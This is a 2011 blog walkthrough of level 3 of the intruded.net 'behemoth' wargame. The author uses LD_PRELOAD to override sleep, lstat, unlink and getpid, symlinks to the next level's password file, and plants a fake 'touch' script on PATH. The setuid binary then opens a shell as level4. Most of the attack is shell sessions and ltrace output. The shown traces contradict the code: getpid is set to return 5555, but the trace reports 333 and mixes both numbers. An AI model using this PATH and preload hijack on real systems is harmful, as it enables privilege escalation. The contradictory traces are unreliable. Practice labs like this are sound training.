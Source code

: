 Title: intruded.net, behemoth: level 3
Date: 2011/09/27 22:32
Author: Ken Ko
Tags: intruded.net, behemoth, ltrace

Preliminary testing has shown that there's a <strong>sleep(2000);</strong> call within level3. Let's get rid of that. 

Oh, also, another note: level3 attempts to touch a random file in your current directory so <strong>this must be run from /tmp</strong> where we have write permissions. 

<pre>
<code>
level3@behemoth:/tmp$ cat sleep.c
#include <stdlib.h>

int sleep(int n) {
        return 0;
}
level3@behemoth:/tmp$ !gcc
gcc -fPIC -shared -o sleep.so sleep.c
level3@behemoth:/tmp$ !expo
export LD_PRELOAD="/tmp/sleep.so"
level3@behemoth:/tmp$
level3@behemoth:/tmp$
level3@behemoth:/tmp$ /wargame/level3

level3@behemoth:/tmp$ ltrace /wargame/level3
__libc_start_main(0x80484a4, 1, 0xbffffab4, 0x80485c0, 0x8048570 <unfinished ...>
getpid()                                            = 2555
seteuid(1004)                                       = -1
sprintf("touch 2555", "touch %d", 2555)             = 10
__lxstat(3, "2555", 0xbffff990)                     = -1
unlink("2555")                                      = -1
system("touch 2555" <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
sleep(2000)                                         = 0
sprintf("cat ", "cat ")                             = 4
system("cat   2555" <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
+++ exited (status 0) +++
level3@behemoth:/tmp$
</code>
</pre>

Hot.

Let's try to get rid of that sleep(), among other things:

<pre>
<code>
level3@behemoth:/tmp$ cat sleep.c
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
//#include <unistd.h>

int lstat (const char *c, struct stat *s) {
        return 0;
}

int unlink (const char * c) {
        return 0;
}

pid_t getpid(void) {
        return 5555;
}

int sleep(int n) {
        return 0;
}
</code>
</pre>

Now we have a fixed pid that gets returned so we know we'll be looking for <strong>/bin/333</strong>. 

<pre>
<code>
level3@behemoth:/tmp$ export LD_PRELOAD="/tmp/sleep.so"
level3@behemoth:/tmp$ ls -lh 5555
lrwxrwxrwx 1 level3 level3 20 2011-09-15 03:57 5555 -> /home/level4/.passwd
level3@behemoth:/tmp$ ltrace /wargame/level3
__libc_start_main(0x80484a4, 1, 0xbffffa94, 0x80485c0, 0x8048570 <unfinished ...>
getpid()                                            = 333
seteuid(1004)                                       = -1
sprintf("touch 5555", "touch %d", 5555)               = 10
__lxstat(3, "5555", 0xbffff970)                      = 0
unlink("333")                                       = 0
system("touch 333" <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
sleep(2000)                                         = 0
sprintf("cat ", "cat ")                             = 4
system("cat   333"#!/bin/bash
whoami
/bin/sh
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
+++ exited (status 0) +++
level3@behemoth:/tmp$
</code>
</pre>

Thing is, we now get a lot of permission denied; incredibly lame! But wait! What is this?

<em>system("touch 333"</em>

What if we had a script named touch... wouldn't it be run? Time to get a shell.

<pre>
<code>
level3@behemoth:/tmp$ chmod +x touch
level3@behemoth:/tmp$ cat touch
/bin/sh
level3@behemoth:/tmp$ PATH="/tmp" /wargame/level3
sh-3.1$ /usr/bin/whoami
level4
sh-3.1$
</code>
</pre>

Awesome possum; time to move on.
